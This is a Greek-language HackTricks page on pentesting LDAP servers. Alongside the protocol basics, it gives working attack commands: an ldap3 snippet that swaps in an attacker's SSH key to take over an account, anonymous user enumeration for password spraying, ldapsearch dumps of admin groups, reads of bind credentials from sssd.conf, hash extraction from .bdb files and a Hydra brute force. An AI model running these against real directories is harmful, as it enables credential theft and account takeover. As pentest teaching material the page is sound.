


# 389, 636, 3268, 3269 - Pentesting LDAP

{{#include ../banners/hacktricks-training.md}}

Το **LDAP** (Lightweight Directory Access Protocol) παρέχει πρόσβαση σε υπηρεσίες καταλόγου: οι clients μπορούν να αναζητούν, να διαβάζουν, να προσθέτουν, να τροποποιούν και να διαγράφουν καταχωρίσεις καταλόγου, όταν το επιτρέπουν οι έλεγχοι πρόσβασης. Σε συνηθισμένες εγκαταστάσεις αποθηκεύονται ταυτότητες, ομάδες, συσκευές και διαμορφώσεις υπηρεσιών. Το LDAP σχεδιάστηκε ως ένας πιο ελαφρύς τρόπος πρόσβασης σε μοντέλα καταλόγου που προέρχονται από το X.500.<sup>[[6]](#references)[[7]](#references)</sup>

Ένας LDAP server ονομάζεται επίσης Directory System Agent (DSA). Ένας κατάλογος μπορεί να χωρίζεται σε naming contexts και να διανέμεται ή να αναπαράγεται σε πολλαπλά DSA, αλλά δεν περιέχει απαραίτητα κάθε server ένα συγχρονισμένο αντίγραφο ολόκληρου του δέντρου. Ένα DSA μπορεί να επιστρέψει referrals όταν τα ζητούμενα δεδομένα βρίσκονται σε άλλον server.<sup>[[6]](#references)[[7]](#references)</sup>

Οι καταχωρίσεις σχηματίζουν ένα **Directory Information Tree (DIT)** και προσδιορίζονται από Distinguished Names (DN). Μια εγκατάσταση μπορεί να χρησιμοποιεί components τομέα σε μορφή DNS (`dc=example,dc=com`), components χώρας/οργανισμού, organizational units ή άλλη ιεραρχία κατάλληλη για το schema· δεν απαιτείται κάθε δέντρο να ακολουθεί τη δομή χώρα → οργανισμός.<sup>[[6]](#references)</sup>

**Συνηθισμένες θύρες:** TCP 389 για LDAP (με δυνατότητα αναβάθμισης με StartTLS) και TCP 636 για LDAP μέσω TLS (`ldaps`). Σε έναν Active Directory domain controller που είναι επίσης Global Catalog server, η TCP 3268 παρέχει LDAP για Global Catalog και η TCP 3269 παρέχει LDAP για Global Catalog μέσω TLS.<sup>[[8]](#references)</sup>

Για χειρισμό LDAP filters από την πλευρά της εφαρμογής και όχι για άμεση πρόσβαση στον κατάλογο, δείτε την [LDAP injection](../pentesting-web/ldap-injection.md).

```
PORT    STATE SERVICE REASON
389/tcp open  ldap    syn-ack
636/tcp open  tcpwrapped
```

### Μορφή Ανταλλαγής Δεδομένων LDAP

Το LDIF (LDAP Data Interchange Format) ορίζει το περιεχόμενο του καταλόγου ως ένα σύνολο εγγραφών. Μπορεί επίσης να αναπαριστά αιτήματα ενημέρωσης (Add, Modify, Delete, Rename).

```bash
dn: dc=local
dc: local
objectClass: dcObject

dn: dc=moneycorp,dc=local
dc: moneycorp
objectClass: dcObject
objectClass: organization

dn: ou=it,dc=moneycorp,dc=local
objectClass: organizationalUnit
ou: it

dn: ou=marketing,dc=moneycorp,dc=local
objectClass: organizationalUnit
ou: marketing

dn: uid=pepe,ou=it,dc=moneycorp,dc=local
objectClass: inetOrgPerson
cn: Pepe Example
sn: Example
givenName: Pepe
uid: pepe
mail: pepe@hacktricks.xyz
telephoneNumber: 23627387495
```

- Οι γραμμές 1-3 ορίζουν το ανώτατο domain `local`
- Οι γραμμές 5-8 ορίζουν το domain πρώτου επιπέδου `moneycorp` (`moneycorp.local`)
- Οι γραμμές 10-16 ορίζουν δύο οργανωτικές μονάδες: `it` και `marketing`.
- Η τελευταία εγγραφή δημιουργεί μια εγγραφή προσώπου και εκχωρεί attributes έγκυρα ως προς το schema.

## Εγγραφή δεδομένων

Τα εγγράψιμα attributes μπορεί να έχουν επιπτώσεις στην ασφάλεια πέρα από τον ίδιο τον κατάλογο. Για παράδειγμα, αν ένας host έχει ρυθμιστεί ρητά ώστε να ανακτά SSH authorized keys από το LDAP και μπορείς να αντικαταστήσεις το attribute `sshPublicKey` ενός στόχου, ίσως μπορέσεις να πιστοποιηθείς ως αυτός ο χρήστης χωρίς τον κωδικό πρόσβασής του. Επιβεβαίωσε την ενσωμάτωση SSH και την αντιστοίχιση των attributes· η απλή παρουσία του attribute δεν αποδεικνύει ότι το χρησιμοποιεί κάποιος host.<sup>[[1]](#references)</sup>

Η πρόσβαση εγγραφής στον κατάλογο μπορεί επίσης να επηρεάσει τα `gidNumber` ή `userPassword` ενός λογαριασμού Linux, αλλά μόνο αν το NSS/SSSD και η στοίβα ελέγχου ταυτότητας του host-στόχου χρησιμοποιούν αυτά τα attributes. Για μια διαδρομή μέσω SSH και sudo, επαλήθευσε το ενεργό `AuthorizedKeysCommand` ή άλλη πηγή κλειδιών, την αντιστοιχισμένη τοπική ομάδα, έναν κανόνα sudoers για αυτή την ομάδα και την απαίτηση της πολιτικής για κωδικό πρόσβασης. Μια εγγράψιμη εγγραφή καταλόγου από μόνη της δεν εξασφαλίζει πρόσβαση root· οι ταυτότητες που έχουν αποθηκευτεί στην cache μπορεί να καθυστερήσουν την αλλαγή αντιστοίχισης.

```bash
# Example from https://www.n00py.io/2020/02/exploiting-ldap-server-null-bind/
>>> import ldap3
>>> server = ldap3.Server('x.x.x.x', port =636, use_ssl = True)
>>> connection = ldap3.Connection(server, 'uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN', 'PASSWORD', auto_bind=True)
>>> connection.bind()
True
>>> connection.extend.standard.who_am_i()
u'dn:uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN'
>>> connection.modify('uid=USER,ou=USERS,dc=DOMAIN,dc=TLD', {'sshPublicKey': [(ldap3.MODIFY_REPLACE, ['ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDHRMu2et/B5bUyHkSANn2um9/qtmgUTEYmV9cyK1buvrS+K2gEKiZF5pQGjXrT71aNi5VxQS7f+s3uCPzwUzlI2rJWFncueM1AJYaC00senG61PoOjpqlz/EUYUfj6EUVkkfGB3AUL8z9zd2Nnv1kKDBsVz91o/P2GQGaBX9PwlSTiR8OGLHkp2Gqq468QiYZ5txrHf/l356r3dy/oNgZs7OWMTx2Rr5ARoeW5fwgleGPy6CqDN8qxIWntqiL1Oo4ulbts8OxIU9cVsqDsJzPMVPlRgDQesnpdt4cErnZ+Ut5ArMjYXR2igRHLK7atZH/qE717oXoiII3UIvFln2Ivvd8BRCvgpo+98PwN8wwxqV7AWo0hrE6dqRI7NC4yYRMvf7H8MuZQD5yPh2cZIEwhpk7NaHW0YAmR/WpRl4LbT+o884MpvFxIdkN1y1z+35haavzF/TnQ5N898RcKwll7mrvkbnGrknn+IT/v3US19fPJWzl1/pTqmAnkPThJW/k= badguy@evil'])]})
```

## Artifacts LDAP στην πλευρά του client σε Linux

Σε Linux hosts ενσωματωμένα με LDAP/AD, πολύτιμα secrets βρίσκονται συχνά στη **διαμόρφωση του client** και όχι μόνο στον ίδιο τον LDAP server.

Συνήθη αρχεία:

```bash
ls -l /etc/sssd/sssd.conf /etc/nslcd.conf /etc/ldap/ldap.conf /etc/krb5.conf 2>/dev/null
sed -n '1,120p' /etc/sssd/sssd.conf 2>/dev/null
sed -n '1,120p' /etc/nslcd.conf 2>/dev/null
```

Κλειδιά υψηλής αξίας:

- **`ldap_uri`** και **`ldap_search_base`**: πού και τι να αναζητήσεις
- **`ldap_default_bind_dn`** και **`ldap_default_authtok`**: επαναχρησιμοποιήσιμα διαπιστευτήρια bind
- **`id_provider`** / **`auth_provider`**: δείχνουν αν το SSSD χρησιμοποιεί LDAP, Kerberos ή και τα δύο

Χρήσιμη συνέχεια:

```bash
grep -nE '^(ldap_uri|ldap_search_base|ldap_default_bind_dn|ldap_default_authtok|id_provider|auth_provider)\\s*=' \
  /etc/sssd/sssd.conf /etc/nslcd.conf 2>/dev/null

ldapsearch -x -H ldap://<target> -D "<bind-dn>" -w '<password>' -b "<base-dn>"
```

Τι να αναζητήσετε:

- **`sssd.conf` / `nslcd.conf` με δικαιώματα ανάγνωσης από όλους**
- διαπιστευτήρια bind σε απλό κείμενο
- ενσωματώσεις SSH ή sudo που βασίζονται σε κατάλογο και μετατρέπουν ένα αναγνώσιμο config σε πραγματικό αντίκτυπο στο authz

## Διαπιστευτήρια σε απλό κείμενο και κίνδυνοι υποβάθμισης TLS

Ένα LDAP **simple bind** μέσω μη προστατευμένης σύνδεσης εκθέτει το bind DN και τον κωδικό πρόσβασης σε κάποιον που παρακολουθεί τη σύνδεση. Δεν χρησιμοποιούν όλοι οι μηχανισμοί ελέγχου ταυτότητας απλό κείμενο: οι μηχανισμοί SASL μπορεί να παρέχουν τη δική τους ακεραιότητα/εμπιστευτικότητα, ενώ το StartTLS ή το `ldaps://` μπορούν να προστατεύσουν τη συνεδρία.<sup>[[9]](#references)</sup>

Ένας attacker που παρακολουθεί τη σύνδεση μπορεί να καταφέρει να καταστείλει ή να παρεμποδίσει το StartTLS, όταν ένας client αντιμετωπίζει το TLS ως προαιρετικό και υποβαθμίζεται σε μη προστατευμένο simple bind. Ένας σωστά ρυθμισμένος client πρέπει να απαιτεί TLS πριν στείλει διαπιστευτήρια και να αποτυγχάνει με ασφάλεια αν η διαπραγμάτευση αποτύχει.

Για το `ldaps://` ή για StartTLS που έχει διαπραγματευτεί επιτυχώς, η υποκλοπή απαιτεί επιπλέον ο client να αποδεχτεί ένα μη έμπιστο πιστοποιητικό ή ένα πιστοποιητικό με ασυμφωνία ονόματος, ή να παραβιαστεί ένα έμπιστο CA/κλειδί. Οι LDAP clients είναι συχνά μη επιβλεπόμενες υπηρεσίες, επομένως ο σχετικός έλεγχος είναι η πολιτική επικύρωσης πιστοποιητικών και όχι ένα διαδραστικό μήνυμα προς τον χρήστη.<sup>[[10]](#references)</sup>

## Ανώνυμη πρόσβαση

### Παράκαμψη ελέγχου TLS SNI

Στο περιβάλλον που αναφέρεται, η επίλυση ενός hostname που επέλεξε ο attacker στη διεύθυνση της υπηρεσίας LDAP άλλαξε τον τρόπο αποδοχής της σύνδεσης TLS και κατέστησε προσβάσιμο έναν κατάλογο με δυνατότητα ανώνυμης ανάγνωσης. Αντιμετωπίστε το ως έλεγχο hostname/SNI και δρομολόγησης πιστοποιητικών που αφορά τη συγκεκριμένη εγκατάσταση, όχι ως γενική παράκαμψη ελέγχου ταυτότητας LDAP:<sup>[[2]](#references)</sup>

```bash
ldapsearch -H ldaps://company.com:636/ -x -s base -b '' "(objectClass=*)" "*" +
```

### Ανώνυμα binds LDAP

Ένα anonymous bind LDAP δημιουργεί κατάσταση εξουσιοδότησης χωρίς έλεγχο ταυτότητας. Το Active Directory επιτρέπει περιορισμένη, ανώνυμη ανακάλυψη του RootDSE, αλλά, από τις προεπιλεγμένες ρυθμίσεις του Windows Server 2003 και μετά, γενικά απαιτεί έλεγχο ταυτότητας για την αναζήτηση δεδομένων καταλόγου. Οι διαχειριστές μπορούν σκόπιμα να παραχωρήσουν ευρύτερη ανώνυμη πρόσβαση για παλαιότερες εφαρμογές· ένα εσφαλμένο ACL μπορεί τότε να εκθέσει χρήστες, ομάδες, υπολογιστές, χαρακτηριστικά ή δεδομένα πολιτικών.<sup>[[3]](#references)</sup>

### Ανώνυμη απαρίθμηση LDAP με το NetExec (null bind)

Αν επιτρέπεται το null/anonymous bind, μπορείς να συλλέξεις απευθείας χρήστες, ομάδες και χαρακτηριστικά μέσω του LDAP module του NetExec, χωρίς διαπιστευτήρια.<sup>[[4]](#references)[[5]](#references)</sup> Χρήσιμα φίλτρα:
- (objectClass=*) για καταγραφή αντικειμένων κάτω από ένα base DN
- (sAMAccountName=*) για συλλογή principals χρηστών

Παραδείγματα:

```bash
# Enumerate objects from the root DSE (base DN autodetected)
netexec ldap <DC_FQDN> -u '' -p '' --query "(objectClass=*)" ""

# Dump users with key attributes for spraying and targeting
netexec ldap <DC_FQDN> -u '' -p '' --query "(sAMAccountName=*)" ""

# Extract just the sAMAccountName field into a list
netexec ldap <DC_FQDN> -u '' -p '' --query "(sAMAccountName=*)" "" \
  | awk -F': ' '/sAMAccountName:/ {print $2}' | sort -u > users.txt
```

Τι να αναζητήσετε:
- sAMAccountName, userPrincipalName
- memberOf και τοποθέτηση σε OU για τον περιορισμό των στοχευμένων sprays
- pwdLastSet (χρονικά μοτίβα), σημαίες userAccountControl (απενεργοποιημένος λογαριασμός, απαίτηση smartcard κ.λπ.)

Σημείωση: Όταν δεν επιτρέπεται η ζητούμενη ανώνυμη αναζήτηση, είναι συνηθισμένο να εμφανίζεται ένα σφάλμα Operations που υποδεικνύει ότι απαιτείται bind. Άλλα σφάλματα μπορεί να σχετίζονται με το base DN, το filter, την πολιτική signing/channel-binding ή τους ειδικούς για τον server ελέγχους πρόσβασης.

## Έγκυρα διαπιστευτήρια

Αν έχετε έγκυρα διαπιστευτήρια για να συνδεθείτε στον LDAP server, μπορείτε να κάνετε dump όλων των πληροφοριών σχετικά με τον Domain Admin χρησιμοποιώντας:

[ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)

```bash
pip3 install ldapdomaindump
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```

### [Brute Force](../generic-hacking/brute-force.md#ldap)

## Απαρίθμηση

### Αυτοματοποιημένη

Αυτά τα scripts ενδέχεται να αποκαλύψουν μεταδεδομένα στα οποία είναι δυνατή η ανώνυμη πρόσβαση, όπως contexts ονοματοδοσίας και υποστηριζόμενα controls:

```bash
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials
```

### Python

<details>

<summary>Δείτε την απαρίθμηση LDAP με Python</summary>

Μπορείτε να απαριθμήσετε έναν κατάλογο LDAP με ή χωρίς διαπιστευτήρια χρησιμοποιώντας Python: `pip3 install ldap3`.

Αρχικά, δοκιμάστε να **συνδεθείτε χωρίς** διαπιστευτήρια:

```bash
>>> import ldap3
>>> server = ldap3.Server('x.X.x.X', get_info = ldap3.ALL, port =636, use_ssl = True)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
>>> server.info
```

Αν το bind επιστρέψει `True`, εξετάστε τα μεταδεδομένα του RootDSE, όπως τα naming contexts και τις υποστηριζόμενες λειτουργίες. Ένα επιτυχές anonymous bind δεν σημαίνει ότι επιτρέπονται οι αναζητήσεις subtree.

```bash
>>> server.info
DSA info (from DSE):
Supported LDAP versions: 3
Naming contexts:
dc=DOMAIN,dc=DOMAIN
```

Μόλις έχετε ένα πλαίσιο ονοματοδοσίας, αυτό το ερώτημα subtree ζητά όλα τα αντικείμενα που επιτρέπεται να διαβάσει η ταυτότητα που έχει πραγματοποιήσει bind:

```bash
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
True
>> connection.entries
```

Ή κάντε **dump** ολόκληρου του ldap:

```bash
>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
True
>>> connection.entries
```

</details>

### windapsearch

Το [**Windapsearch**](https://github.com/ropnop/windapsearch) είναι ένα script Python χρήσιμο για την απαρίθμηση χρηστών, ομάδων και υπολογιστών από έναν τομέα Windows μέσω ερωτημάτων LDAP.

```bash
# Get computers
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --computers
# Get groups
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --groups
# Get users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --users
# Get Domain Admins
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Privileged Users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --privileged-users
```

### ldapsearch

Ελέγξτε αν ισχύουν null credentials ή αν τα διαπιστευτήριά σας είναι έγκυρα:

```bash
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
```

```bash
# CREDENTIALS NOT VALID RESPONSE
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A4C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v3839
```

Ένα σφάλμα που αναφέρει ότι πρέπει να ολοκληρωθεί ένα επιτυχές bind σημαίνει ότι η ζητούμενη λειτουργία δεν επιτρέπεται στην τρέχουσα κατάσταση ελέγχου ταυτότητας. Πιθανές αιτίες είναι μη έγκυρα διαπιστευτήρια, ένα ανώνυμο/παραλειπόμενο bind ή μια πολιτική διακομιστή που απαιτεί signing, channel binding ή διαφορετικό μηχανισμό ελέγχου ταυτότητας.

Μπορείτε να εξαγάγετε **τα πάντα από ένα domain** χρησιμοποιώντας:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
```

Εξαγωγή **χρηστών**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
#Example: ldapsearch -x -H ldap://<IP> -D 'MYDOM\john' -w 'johnpassw' -b "CN=Users,DC=mydom,DC=local"
```

Εξαγωγή **υπολογιστών**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Εξαγάγετε **τα στοιχεία μου**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=<MY NAME>,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Εξαγωγή **Domain Admins**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Εξαγωγή **Domain Users**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Εξαγάγετε τους **Enterprise Admins**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Εξαγωγή **Διαχειριστών**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Εξαγωγή της **Remote Desktop Group**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Για να δείτε αν έχετε πρόσβαση σε κάποιον κωδικό πρόσβασης, μπορείτε να χρησιμοποιήσετε το grep αφού εκτελέσετε ένα από τα ερωτήματα:

```bash
<ldapsearchcmd...> | grep -i -A2 -B2 "userpas"
```

Οι τιμές σε attributes τύπου κωδικού μπορεί να είναι hashes, application-specific secrets, παρωχημένα δεδομένα ή decoys και όχι τρέχοντες κωδικοί πρόσβασης σε plaintext.

#### pbis

Μπορείτε να κατεβάσετε το **pbis** από εδώ: [https://github.com/BeyondTrust/pbis-open/](https://github.com/BeyondTrust/pbis-open/) και συνήθως είναι εγκατεστημένο στο `/opt/pbis`.\
Το **PBIS Open** είναι πλέον αρχειοθετημένο project, αλλά μπορεί να είναι ακόμη εγκατεστημένο σε παλαιότερα hosts ενσωματωμένα με LDAP/AD. Τα utilities του μπορούν να αποκαλύψουν χρήσιμες πληροφορίες για την τοπική ενσωμάτωση:

```bash
#Read keytab file
./klist -k /etc/krb5.keytab

#Get known domains info
./get-status
./lsa get-status

#Get basic metrics
./get-metrics
./lsa get-metrics

#Get users
./enum-users
./lsa enum-users

#Get groups
./enum-groups
./lsa enum-groups

#Get all kind of objects
./enum-objects
./lsa enum-objects

#Get groups of a user
./list-groups-for-user <username>
./lsa list-groups-for-user <username>
#Get groups of each user
./enum-users | grep "Name:" | sed -e "s,\\,\\\\\\,g" | awk '{print $2}' | while read name; do ./list-groups-for-user "$name"; echo -e "========================\n"; done

#Get users of a group
./enum-members --by-name "domain admins"
./lsa enum-members --by-name "domain admins"
#Get users of each group
./enum-groups | grep "Name:" | sed -e "s,\\,\\\\\\,g" | awk '{print $2}' | while read name; do echo "$name"; ./enum-members --by-name "$name"; echo -e "========================\n"; done

#Get description of each user
./adtool -a search-user --name CN="*" --keytab=/etc/krb5.keytab -n <Username> | grep "CN" | while read line; do
    echo "$line";
    ./adtool --keytab=/etc/krb5.keytab -n <username> -a lookup-object --dn="$line" --attr "description";
    echo "======================"
done
```

## Γραφικό περιβάλλον

### Apache Directory

[**Κατεβάστε το Apache Directory από εδώ**](https://directory.apache.org/studio/download/download-linux.html). Μπορείτε να βρείτε ένα [παράδειγμα χρήσης αυτού του εργαλείου εδώ](https://www.youtube.com/watch?v=VofMBg2VLnw&t=3840s).

### jxplorer

Μπορείτε να κατεβάσετε ένα γραφικό περιβάλλον για διακομιστή LDAP εδώ: [http://www.jxplorer.org/downloads/users.html](http://www.jxplorer.org/downloads/users.html)

Από προεπιλογή, μπορεί να εγκατασταθεί στο `/opt/jxplorer`.

.png>)

### Godap

Το Godap είναι ένα διαδραστικό περιβάλλον χρήστη τερματικού για LDAP, το οποίο μπορεί να χρησιμοποιηθεί για αλληλεπίδραση με αντικείμενα και χαρακτηριστικά σε AD και άλλους διακομιστές LDAP. Είναι διαθέσιμο για Windows, Linux και MacOS και υποστηρίζει simple binds, pass-the-hash, pass-the-ticket και pass-the-cert, καθώς και πολλές άλλες εξειδικευμένες λειτουργίες, όπως αναζήτηση/δημιουργία/τροποποίηση/διαγραφή αντικειμένων, προσθήκη/αφαίρεση χρηστών από ομάδες, αλλαγή κωδικών πρόσβασης, επεξεργασία δικαιωμάτων αντικειμένων (DACLs), τροποποίηση του Active-Directory Integrated DNS (ADIDNS), εξαγωγή σε αρχεία JSON κ.λπ.



Μπορείτε να το βρείτε στη διεύθυνση [https://github.com/Macmod/godap](https://github.com/Macmod/godap). Για παραδείγματα χρήσης και οδηγίες, διαβάστε το [Wiki](https://github.com/Macmod/godap/wiki).

### Ldapx

Το Ldapx είναι ένας ευέλικτος LDAP proxy που μπορεί να χρησιμοποιηθεί για την επιθεώρηση και τον μετασχηματισμό της κίνησης LDAP από άλλα εργαλεία. Μπορεί να χρησιμοποιηθεί για την απόκρυψη της κίνησης LDAP με σκοπό την προσπάθεια παράκαμψης εργαλείων προστασίας ταυτότητας και παρακολούθησης LDAP, ενώ υλοποιεί τις περισσότερες από τις μεθόδους που παρουσιάζονται στην ομιλία [MaLDAPtive](https://www.youtube.com/watch?v=mKRS5Iyy7Qo).



Μπορείτε να το αποκτήσετε από το [https://github.com/Macmod/ldapx](https://github.com/Macmod/ldapx).

## Πιστοποίηση μέσω Kerberos

Με έγκυρη προσωρινή μνήμη διαπιστευτηρίων Kerberos και σωστή ρύθμιση του service principal/DNS, το `ldapsearch -Y GSSAPI` χρησιμοποιεί SASL GSSAPI και όχι simple bind. Το αν μια άλλη κλήση χρησιμοποιεί NTLM εξαρτάται από τη βιβλιοθήκη LDAP και τον μηχανισμό SASL· το `ldapsearch -x` ζητά συγκεκριμένα simple authentication.

## Post-exploitation

Σε παλαιότερες εγκαταστάσεις OpenLDAP μπορεί να υπάρχουν αρχεία Berkeley DB στο `/var/lib/ldap`. Αν το συγκεκριμένο backend χρησιμοποιεί αναγνώσιμα αρχεία `.bdb`, αυτή η ιστορική μέθοδος εξαγωγής δεδομένων από συμβολοσειρές μπορεί να ανακτήσει εγγραφές password-hash, αλλά τα σύγχρονα backend `mdb` και οι δυαδικές μορφές βάσεων δεδομένων απαιτούν εργαλεία offline που λαμβάνουν υπόψη το backend ή ένα συνεπές αντίγραφο ασφαλείας:

```bash
cat /var/lib/ldap/*.bdb | grep -i -a -E -o "description.*" | sort | uniq -u
```

Εξαγάγετε μόνο την τιμή του hash (για παράδειγμα, τη συμβολοσειρά που αρχίζει με `{SSHA}`) και επιλέξτε την αντίστοιχη μορφή John the Ripper/Hashcat. Μην προσθέτετε γειτονικά πεδία LDIF ή βάσης δεδομένων, όπως το `structuralObjectClass`.

### Αρχεία διαμόρφωσης

- Γενικά
  - containers.ldif
  - ldap.cfg
  - ldap.conf
  - ldap.xml
  - ldap-config.xml
  - ldap-realm.xml
  - slapd.conf
- Διακομιστής IBM SecureWay V3
  - V3.sas.oc
- Διακομιστής Microsoft Active Directory
  - msadClassesAttrs.ldif
- Netscape Directory Server 4
  - nsslapd.sas_at.conf
  - nsslapd.sas_oc.conf
- Διακομιστής καταλόγου OpenLDAP
  - slapd.sas_at.conf
  - slapd.sas_oc.conf
- Sun ONE Directory Server 5.1
  - 75sas.ldif

## Αυτόματες εντολές HackTricks

```
Protocol_Name: LDAP    #Protocol Abbreviation if there is one.
Port_Number:  389,636     #Comma separated if there is more than one.
Protocol_Description: Lightweight Directory Access Protocol         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for LDAP
  Note: |
    The use of LDAP (Lightweight Directory Access Protocol) is mainly for locating various entities such as organizations, individuals, and resources like files and devices within networks, both public and private. It offers a streamlined approach compared to its predecessor, DAP, by having a smaller code footprint.

    https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ldap.html

Entry_2:
  Name: Banner Grab
  Description: Grab LDAP Banner
  Command: nmap -p 389 --script ldap-search -Pn {IP}

Entry_3:
  Name: LdapSearch
  Description: Base LdapSearch
  Command: ldapsearch -H ldap://{IP} -x

Entry_4:
  Name: LdapSearch Naming Context Dump
  Description: Attempt to get LDAP Naming Context
  Command: ldapsearch -H ldap://{IP} -x -s base namingcontexts

Entry_5:
  Name: LdapSearch Big Dump
  Description: Need Naming Context to do big dump
  Command: ldapsearch -H ldap://{IP} -x -b "{Naming_Context}"

Entry_6:
  Name: Hydra Brute Force
  Description: Need User
  Command: hydra -l {Username} -P {Big_Passwordlist} {IP} ldap2 -V -f

Entry_7:
    Name: Netexec LDAP BloodHound
    Command: nxc ldap <IP> -u <USERNAME> -p <PASSWORD> --bloodhound -c All -d <DOMAIN.LOCAL> --dns-server <IP> --dns-tcp
```

## References

- [1] [Εκμετάλλευση NULL Bind σε διακομιστή LDAP](https://www.n00py.io/2020/02/exploiting-ldap-server-null-bind/)
- [2] [Εκμετάλλευση αυθαίρετων αρχικοποιήσεων αντικειμένων στο PHP χωρίς προσαρμοσμένες κλάσεις](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [3] [Microsoft: Οι ανώνυμες λειτουργίες LDAP στο Active Directory είναι απενεργοποιημένες](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/anonymous-ldap-operations-active-directory-disabled)
- [4] [HTB: Baby — Anonymous LDAP → Password Spray → SeBackupPrivilege → Domain Admin](https://0xdf.gitlab.io/2025/09/19/htb-baby.html)
- [5] [NetExec (διάδοχος του CME)](https://github.com/Pennyw0rth/NetExec)
- [6] [RFC 4512 – Μοντέλα πληροφοριών καταλόγου LDAP](https://www.rfc-editor.org/rfc/rfc4512)
